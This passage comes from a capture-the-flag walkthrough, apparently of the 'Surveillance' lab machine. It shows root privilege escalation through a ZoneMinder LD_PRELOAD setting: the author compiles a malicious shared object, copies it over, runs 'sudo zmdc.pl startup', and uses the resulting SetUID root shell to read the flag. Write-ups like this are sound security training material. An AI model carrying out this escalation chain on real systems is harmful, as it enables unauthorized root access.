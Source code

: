 I’ll compile it and copy it to Surveillance:

```
oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
oxdf@hacky$ scp -i ~/keys/ed25519_gen shell.so zoneminder@surveillance.htb:/tmp/
shell.so                                     100%   14KB  78.3KB/s   00:00

```

#### Exploit

I’ll update the setting in ZoneMinder. There seems to be a cron clearing this setting every minute, so it’s worth setting this again just before running the commands.

The command to run according to the help screen is `zmdc.pl`. Running it shows the help menu:

```
zoneminder@surveillance:/tmp$ sudo zmdc.pl
No command given
Usage:
    zmdc.pl {command} [daemon [options]]

Options:
    {command} - One of 'startup|shutdown|status|check|logrot' or
    'start|stop|restart|reload|version'. [daemon [options]] - Daemon name
    and options, required for second group of commands

```

It’s not clear where in the process ZoneMinder injects the `LD_PRELOAD`. It is clear the help menu is not enough.

Because I’m trying to “launch zmdc”, I’ll use the `startup` command:

```
zoneminder@surveillance:/tmp$ sudo zmdc.pl startup
Starting server

```

Now there’s a new SetUID/SetGID binary:

```
zoneminder@surveillance:/tmp$ ls -l 0xdf-root
-rwsrwsrwx 1 root root 1396520 Apr 18 21:47 0xdf-root

```

Running with `-p` to not drip privs gives a shell with effective ids of root:

```
zoneminder@surveillance:/tmp$ ./0xdf-root -p
0xdf-root-5.1# id
uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) egid=0(root) groups=0(root),1001(zoneminder)

```

Which is enough to read the flag:

```
0xdf-root-5.1# cat /root/root.txt
e3a84d31************************

```





